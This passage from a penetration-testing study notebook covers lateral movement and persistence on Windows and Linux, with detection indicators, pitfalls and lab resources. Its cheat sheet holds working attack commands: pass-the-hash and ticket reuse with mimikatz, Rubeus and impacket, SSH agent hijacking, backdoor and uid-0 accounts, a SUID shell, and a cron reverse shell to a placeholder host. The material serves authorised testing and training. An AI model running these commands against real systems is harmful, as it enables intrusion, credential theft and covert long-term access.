- **4624 type 3 (network logon) with NTLM + a 7045 (service install) seconds later, from the same source** = PsExec/SMBExec. Very reliable.
- **`wmiprvse.exe` as the parent of `cmd.exe`/`powershell.exe`** = WMIExec. Legitimate WMI rarely spawns interactive shells.
- **The same local account (RID 500) logging on to many machines in a short window** = shared-local-admin pass-the-hash spread — the single strongest lateral-movement indicator, and the reason LAPS exists.
- **A TGT requested with RC4 (etype 23) when the domain is AES-capable** = overpass-the-hash downgrade.
- **Kerberos service tickets requested for many SPNs by one account** = Kerberoasting (next notebook).

The defensive theme: valid-credential movement is hard to catch on any *single* host, so detection lives in **cross-host correlation** — a SIEM watching for one identity or one source touching many systems in ways a human admin wouldn't.

---

## Part 10.5: Choosing Persistence by Engagement Type

Persistence is not one-size-fits-all; the right choice depends on what the engagement is testing:

| Engagement | Preferred persistence | Why |
|------------|----------------------|-----|
| OSCP-style / access-focused | scheduled task, service, SSH key | reliable, simple, easy cleanup |
| Red team (evasion) | WMI subscription, golden ticket, LOLBin-based | survives hunting, blends in |
| Purple team (detection) | textbook Run key, service, task | *want* the alert to fire, validate the SOC |
| Long assessment | SSH key + one backup mechanism | durable across reboots/rotations |

The meta-rule: install the **fewest** implants that meet the objective, each **documented with its removal**, and matched to whether the client wants them *found* (purple) or *not* (red). A single well-placed SSH key or scheduled task is usually enough; layering five backdoors just multiplies cleanup risk.

### Persistence vs the objective

Ask *why* you need persistence before planting it. If the goal is "prove domain compromise," you may not need persistence at all — a documented DCSync and a screenshot suffice. If the goal is "test whether the SOC detects long-dwell access," persistence *is* the test. Never plant durable access reflexively; plant it because the engagement objective requires demonstrating it, and then remove it.

---

## Part 11: Common Pitfalls

- **Cracking when you can pass.** Reuse the hash/ticket/key directly; you rarely need the plaintext to move.
- **Leading with PsExec.** It's the noisiest option (service + file); prefer WMIExec/WinRM when stealth matters.
- **Account lockouts from spraying.** Password spraying locks accounts; hashes/keys don't, but bad-password attempts do — throttle and coordinate.
- **Forgetting `--local-auth`.** For *local* accounts (shared local admin) NetExec/impacket need `--local-auth`; without it they try domain auth.
- **Wrong Kerberos target format.** PtT/overpass needs the DC-reachable FQDN and correct time sync (Kerberos is time-sensitive — `ntpdate`/`faketime`).
- **Un-documented persistence.** Every implant must be recorded with its removal command *as you plant it*.
- **Leaving backdoors behind.** Verify removal; an un-cleaned implant is a real incident you caused.
- **Over-spreading.** Move only as far as the objective needs; every extra host is more noise and more cleanup.
- **Ignoring time sync for Kerberos.** Clock skew >5 min breaks ticket use; sync to the DC.
- **Layering too much persistence.** Multiple backdoors = more noise and more to clean; one durable + one backup is plenty.
- **PAM backdoors on production.** They alter authentication for real users; avoid unless explicitly authorised, and remove carefully.
- **Persisting without a reason.** If the objective is proven by a documented DCSync, you may not need persistence at all — don't plant it reflexively.

---

## Part 11.5: Memory Hooks & Troubleshooting FAQ

### Memory hooks

- **"Reuse, don't re-exploit."** Movement spends harvested creds; the exploit was the foothold.
- **"Pass it, don't crack it."** Hash/ticket/key authenticate directly.
- **"Quiet by default."** WMIExec/WinRM before PsExec; existing creds before new accounts.
- **"Document as you plant."** Every implant + its removal, in your notes, immediately.
- **"Tunnel + hash."** Reach with a pivot, authenticate with a credential.
- **"Remove and verify."** An un-cleaned backdoor is an incident you caused.

### Troubleshooting FAQ

| Symptom | Cause | Fix |
|---------|-------|-----|
| impacket "STATUS_LOGON_FAILURE" with a hash | wrong hash half / domain vs local | use `:NT` (blank LM); add `--local-auth` for local accounts |
| Kerberos "clock skew too great" | time not synced to DC | `sudo ntpdate dc` or `faketime` |
| PtT "KDC_ERR" | ticket expired / wrong SPN | re-request; check target FQDN |
| evil-winrm connects but limited | user not in admins/Remote Mgmt | need the right group; try another host |
| netexec shows access but `-x` fails | AV blocked the command | try wmiexec/atexec; obfuscate |
| overpass-the-hash no TGT | wrong key type | use `/rc4:` for NT hash, `/aes256:` for AES key |
| persistence didn't fire | wrong trigger / needs reboot-logon | check `/sc`, wait for the trigger |

---

## Part 12: Final Revision / Summary

- Two goals from an assumed breach: **lateral movement** (reach more hosts) and **persistence** (keep access). The engine is the harvest→reuse loop.
- Reuse **passwords, NT hashes, Kerberos tickets, and SSH keys** — almost never needing the plaintext.
- Windows exec tools: **PsExec** (SMB+service, noisy, SYSTEM), **SMBExec** (service, less disk), **WMIExec** (WMI, quiet), **evil-winrm** (WinRM, interactive), **NetExec** (spray + exec at scale).
- Credential-reuse primitives: **PtH** (NT hash over NTLM), **overpass-the-hash** (hash→TGT), **PtT** (replay a ticket); on Linux, SSH keys, agent hijacking, and Kerberos ccache/keytab.
- Windows persistence: scheduled task, service, Run key, Startup, **WMI subscription** (stealthy), account backdoor, **Golden Ticket** (domain-wide, survives resets).
- Linux persistence: **SSH authorized_keys** (cleanest), cron, systemd service/timer, uid-0 account, SUID backdoor.
- **OPSEC & responsibility:** pre-authorise persistence, document every implant with its removal, prefer reversible techniques, remove and verify at end, match noise to the engagement.
- Defenders use tiered admin, LAPS, SMB signing, Credential Guard, segmentation, and monitor 7045/4698/4720/4732, WMI Sysmon events, and Linux FIM.
- **Reuse material has lifetimes:** tickets are short (act now), hashes/keys last until rotation, Golden Tickets are effectively permanent.
- **Prefer Kerberos (overpass/PtT) over NTLM (PtH)** on monitored networks; PtT of a stolen ticket is quietest.
- **Pivot + authenticate:** reach segmented hosts with a tunnel (chisel/ligolo/proxychains), then use the harvested credential.
- **The report is the chain:** narrate foothold → shared-admin PtH → DA session → DCSync → krbtgt, and pair it with remediations (LAPS, tiered admin, double krbtgt reset).
- **Detection lives in cross-host correlation** — one identity/source touching many systems — because single-host valid-credential use looks legitimate.

---

## Part 13: Cheat Sheet / Quick Reference

```text
# WINDOWS LATERAL (password or -hashes :NT)
impacket-psexec  CORP/Administrator@10.0.0.21          # SMB+service, SYSTEM (noisy)
impacket-smbexec CORP/Administrator@10.0.0.21          # service, less disk
impacket-wmiexec CORP/Administrator@10.0.0.21          # WMI, quiet
evil-winrm -i 10.0.0.21 -u Administrator -H <NT>       # WinRM interactive
netexec smb 10.0.0.0/24 -u Administrator -H <NT> --local-auth -x whoami

# CREDENTIAL REUSE
mimikatz # sekurlsa::pth /user:Administrator /domain:CORP /ntlm:<NT> /run:cmd.exe
Rubeus.exe asktgt /user:jdoe /rc4:<NT> /ptt           # overpass-the-hash
Rubeus.exe ptt /ticket:tgt.kirbi                       # pass-the-ticket
export KRB5CCNAME=t.ccache; impacket-psexec -k -no-pass CORP/jdoe@host.corp.local

# LINUX LATERAL
ssh -i id_rsa user@host ; sshpass -p 'pw' ssh user@host
SSH_AUTH_SOCK=$(find /tmp -name 'agent.*'|head -1) ssh user@next
export KRB5CCNAME=/tmp/krb5cc_1000; smbclient -k //fs/share

# WINDOWS PERSISTENCE (authorised + documented)
schtasks /create /tn N /tr C:\...\p.exe /sc onstart /ru SYSTEM /f
sc create N binPath= "C:\...\p.exe" start= auto
reg add "HKLM\...\Run" /v N /t REG_SZ /d C:\...\p.exe /f
net user bd P@ss1 /add & net localgroup administrators bd /add
# WMI subscription: SharPersist -t wmi -c "payload" -m add

# LINUX PERSISTENCE (authorised + documented)
echo 'ssh-ed25519 AAAA... op' >> ~/.ssh/authorized_keys
(crontab -l;echo '*/10 * * * * bash -i >& /dev/tcp/IP/443 0>&1')|crontab -
useradd -o -u 0 -g 0 -M -s /bin/bash svc-mon
cp /bin/bash /usr/local/bin/.c && chmod +s /usr/local/bin/.c

# PIVOT + AUTHENTICATE
# chisel: server -p 8000 --reverse (attacker) ; client ATT:8000 R:socks (pivot)
proxychains impacket-wmiexec -hashes :NT CORP/Administrator@10.0.0.21

# GOLDEN TICKET (domain persistence - AD notebook)
mimikatz # kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-... /krbtgt:<hash> /ptt

# CLEANUP (reverse each; verify)
schtasks /delete /tn N /f ; sc delete N ; reg delete ... /f ; net user bd /delete
# WMI: Get-WmiObject __EventFilter/CommandLineEventConsumer/__FilterToConsumerBinding -Namespace root\subscription | Remove-WmiObject
# Linux: remove authorized_keys line, crontab entry, systemd unit, added user, SUID binary
```

Pair this with the harvesting cheat sheet (previous chapter) and the pivoting recap: the full internal loop is *harvest → reuse (this sheet) → harvest again → persist (this sheet) → objective.*

---

## Part 14: Practice Labs & Resources

- **TryHackMe — "Lateral Movement and Pivoting", "Persisting AD", "Post-Exploitation Basics"** — hands-on movement and persistence.
- **HackTheBox Academy — "Lateral Movement", "Active Directory Enumeration & Attacks"** — the definitive graded coverage of the exec tools and credential reuse.
- **impacket (psexec/smbexec/wmiexec), evil-winrm, NetExec, Rubeus, mimikatz** — practise each; know their footprints.
- **GOAD / DetectionLab / HackTheBox pro labs ("Zephyr", "Dante")** — full domains to practise pivoting *and* detecting it.
- **SharPersist / PowerLurk** — safe, tooled persistence for lab testing (documented, removable).
- **MITRE ATT&CK — Lateral Movement (TA0008) & Persistence (TA0003)** — map each technique to its ATT&CK ID for reporting.
- **HackTheBox — "Blackfield", "Search", "Cascade"** — AD boxes where movement + reuse across hosts is the intended path.
- **TryHackMe — "Wreath"** — a small network requiring pivoting, movement, and persistence end to end.
- **SpecterOps / ATT&CK Evaluations write-ups** — see how real adversaries chain these, and how EDRs detect them.

### Self-check before moving on

Given a harvested hash/ticket/key, you should be able to move to a new host with the *quietest* tool that works, harvest again, and reach the objective — and, if authorised, install a documented, reversible persistence mechanism on each platform and remove it cleanly. You should also be able to name the detection each generates. When lateral movement is "pick the right reuse primitive and exec tool for the noise budget," you're ready for the Active Directory notebook, where these primitives become the backbone of Kerberos attacks and domain dominance.

This closes the Privilege Escalation notebook: from a low-privilege foothold you can now enumerate, escalate to root/SYSTEM on Linux and Windows, harvest credentials, and move laterally with persistence. The next notebook, **Active Directory**, assembles all of it into full-domain attack paths — the assumed-breach mindset, BloodHound mapping, Kerberos attacks, and domain dominance.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/pentest-privilege-escalation/07-persistence-and-lateral-movement-across-linux-and-windows), with comments and the latest edits.*
